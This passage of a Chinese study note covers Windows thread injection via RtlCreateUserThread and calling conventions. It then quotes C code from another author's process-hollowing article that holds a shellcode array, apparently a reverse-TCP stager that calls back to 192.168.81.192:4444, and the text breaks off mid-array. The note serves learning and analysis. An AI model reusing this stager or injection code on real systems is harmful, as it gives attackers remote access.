 

**更新：**

- `WINAPI` 定义了约定调用，`*` 说明是函数指针，`_RtlCreateUserThread` 是符号名称。`NTSTATUS` 是返回值。
- `typedef` 是用来定义类型的。
- 如果有别名，会在括号后、分号前，这里省略了别名。




![title](https://leanote.com/api/file/getImage?fileId=5f324384ab64411027000803)


```
typedef NTSTATUS(WINAPI * _RtlCreateUserThread)(
    HANDLE      ProcessHandle,
    PSECURITY_DESCRIPTOR  SecurityDescriptor,
    BOOL      CreateSuspended,
    ULONG     StackZeroBits,
    PULONG     StackReserved,
    PULONG     StackCommit,
    LPVOID     StartAddress,
    LPVOID     StartParameter,
    PHANDLE      ThreadHandle,
    LPVOID     ClientID
    );
```

```
NTSTATUS status = RtlCreateUserThread(hProc, 0, false, 0, 0, 0, FreeLibrary, hm, &ht, 0);
```


- fastcall 和 stdcall 调用约定的另一区别是一个把传入参数存在寄存器上，一个存在栈上。
- 栈和堆在内存中的区别是：栈存放临时变量，堆存放稍微大一点的数据。

---------


# 0x01 一个问题：这段代码是否执行了 shellcode？


起因是在 3gstudent 师傅的博文 [傀儡进程的实现与检测](https://3gstudent.github.io/3gstudent.github.io/%E5%82%80%E5%84%A1%E8%BF%9B%E7%A8%8B%E7%9A%84%E5%AE%9E%E7%8E%B0%E4%B8%8E%E6%A3%80%E6%B5%8B/) 中看到这样一段文字和代码：

> 生成shellcode后，HelloWorld工程实现执行shellcode功能的源代码如下：

```
#include <windows.h>
int WINAPI WinMain(HINSTANCE hInstance,HINSTANCE hPrevInstance,LPSTR lpCmdLine,int nCmdShow)
{
    unsigned char shellcode1[] =  
        "\xfc\xe8\x82\x00\x00\x00\x60\x89\xe5\x31\xc0\x64\x8b\x50\x30"
        "\x8b\x52\x0c\x8b\x52\x14\x8b\x72\x28\x0f\xb7\x4a\x26\x31\xff"
        "\xac\x3c\x61\x7c\x02\x2c\x20\xc1\xcf\x0d\x01\xc7\xe2\xf2\x52"
        "\x57\x8b\x52\x10\x8b\x4a\x3c\x8b\x4c\x11\x78\xe3\x48\x01\xd1"
        "\x51\x8b\x59\x20\x01\xd3\x8b\x49\x18\xe3\x3a\x49\x8b\x34\x8b"
        "\x01\xd6\x31\xff\xac\xc1\xcf\x0d\x01\xc7\x38\xe0\x75\xf6\x03"
        "\x7d\xf8\x3b\x7d\x24\x75\xe4\x58\x8b\x58\x24\x01\xd3\x66\x8b"
        "\x0c\x4b\x8b\x58\x1c\x01\xd3\x8b\x04\x8b\x01\xd0\x89\x44\x24"
        "\x24\x5b\x5b\x61\x59\x5a\x51\xff\xe0\x5f\x5f\x5a\x8b\x12\xeb"
        "\x8d\x5d\x68\x33\x32\x00\x00\x68\x77\x73\x32\x5f\x54\x68\x4c"
        "\x77\x26\x07\xff\xd5\xb8\x90\x01\x00\x00\x29\xc4\x54\x50\x68"
        "\x29\x80\x6b\x00\xff\xd5\x6a\x0a\x68\xc0\xa8\x51\xc0\x68\x02"
        "\x00\x11\x5c\x89\xe6\x50\x50\x50\x50\x40\x50\x40\x50\x68\xea"
        "\x0f\xdf\xe0\xff\xd5\x97\x6a\x10\x56\x57\x68\x99\xa5\x74\x61"
        "\xff\xd5\x85\xc0\x74\x0c\xff\x4e\x08\x75\xec\x68\xf0\xb5\xa2"
        "\x56\xff\xd5\x6a\x00\x6a\x04\x56\x57\x68\x02\xd9\xc8\x5f\xff"
        "\xd5\x8b\x36\x6a\x40\x68\x00\x10\x00\x00\x56\x6a\x00\x68\x58"
        "\xa4\x53\xe5\xff\xd5\x93\x53\x6a\x00\x56\x53\x57\x68\x02\xd9"
```